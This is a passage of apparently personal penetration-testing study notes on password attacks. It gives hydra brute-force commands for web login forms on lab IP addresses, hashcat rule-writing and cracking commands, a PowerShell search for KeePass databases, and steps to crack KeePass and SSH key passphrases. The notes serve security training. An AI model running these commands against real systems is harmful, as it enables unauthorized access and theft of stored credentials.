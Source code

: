 also can apply on `ftp` and other protocol.

## HTTP POST Login form
Burpsuite -> send POST data ,identify request body -> capture difference between successful and a failed login.
```bash
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```
And we can use `http-get`,`http-post`.
Retrieve the request from burpsuite -> use `\r\n` to replace.
in vim:
```bash
:%s/\n/\\r\\n/g
```
Then
```bash
hydra -L userlist.txt -P passlist.txt 192.168.229.201 http-get / -m "GET / HTTP/1.1\r\nHost: 192.168.229.201\r\nUser-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8\r\nAccept-Language: en-US,en;q=0.5\r\nAccept-Encoding: gzip, deflate, br\r\nConnection: close\r\nCookie: filemanager=qba1s5ukh2tgu48oksrfoqpu0m\r\nUpgrade-Insecure-Requests: 1\r\nAuthorization: Basic ^USER^:^PASS^\r\n\r\n" -f
```

## Password cracking
### Hashcat
Create a rule for hashcat (append 1 at the end of dictionary)
```bash
echo \$1 > demo.rule
```
All letters upper case and duplicates the passwords contained in dictionary: `u d` in `.rule` 
`c` represents capitalization:
```
$1 c $!
$2 c $!
$1 $2 $3 c $!
```
variety of rules: `/usr/share/hashcat/rules`
hashcat:
```bash
hashcat [hash] [dictionary] -m [type] -a [mode] -r [rule]
```
We can identify the hash type with `hash-identifier` or `hashid`

### Searching file (Example of Keepass)
in windows(file with extension `.kdbx`):
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
-> kepass2john(remove the first col) -> hashcat ,search for the `-m` mode.
```bash
hashcat --help | grep -i "KeePass"
```
Then
```bash
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```
Then , use `keepassXC` to open the `kdbx` file.
### SSH Private Key Passphrase
```hash
ssh2john id_rsa > ssh.hash
```
remove first col, then